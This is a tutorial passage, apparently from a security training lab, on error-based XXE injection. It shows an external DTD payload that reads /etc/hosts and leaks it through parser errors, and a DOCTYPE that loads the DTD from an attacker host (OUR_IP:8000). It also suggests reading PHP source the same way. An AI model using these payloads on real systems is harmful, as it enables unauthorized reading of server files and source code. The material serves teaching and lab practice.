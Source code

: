 ### Error Based XXE
There are times where the web app won't write any output, so we cannot control any of the XML input entities to write its content. 

In such cases, we would be blind to the XML output and so would not be able to retrieve the file content using our usual methods.

If the web app displays runtime errors (like **PHP errors**) and does not have proper exception handling for the XML input, then we can use this flaw to read the output of the XXE exploit. 

If the web app neither writes XML output nor displays any errors, we would face a completely blind situation, which we will discuss soon.

Let's consider the exercise we have in ``/error``, in which none of the XML input entities is displayed on the screen. First, let's try to send **malformed XML data**, and see if the web app displays any errors. 

To do so, we can delete any of the closing tags, change one of them, so it does not close (e.g. ``<roo>`` instead of ``<root>``), or just reference a non-existing entity, as follows:
![[B1SWR-W_Je.png]]
We see that we caused the web app to display an error, and it also revealed the web server directory, which we can use to read the source code of other files. 

Now, we can exploit this flaw to exfiltrate file content. To do so, we will use a similar technique to what we used earlier. 

First, we will host a **DTD** file that contains the following payload:
```xml
<!ENTITY % file SYSTEM "file:///etc/hosts">
<!ENTITY % error "<!ENTITY content SYSTEM '%nonExistingEntity;/%file;'>">
```
The above payload defines the ``file`` parameter entity and then joins it with an entity that does not exist. 

In our previous exercise, we were joining three strings. In this case, ``%nonExistingEntity;`` does not exist, so the web app would throw an error saying that this entity does not exist, along with our joined ``%file;`` as part of the error. 

There are many other variables that can cause an error, like a bad URI or having bad characters in the referenced file.

Now, we can call our external DTD script, and then reference the ``error`` entity, as follows:
```xml
<!DOCTYPE email [ 
  <!ENTITY % remote SYSTEM "http://OUR_IP:8000/xxe.dtd">
  %remote;
  %error;
]>
```
Once we host our **DTD** script as we did earlier and send the above payload as our XML data, we will get the content of the ``/etc/hosts`` file as follows:
![[SJ_gkGW_1e.png]]
This method may also be used to read the source code of files. All we have to do is change the file name in our DTD script to point to the file we want to read (i.e. ``"file:///var/www/html/submitDetails.php"``). 
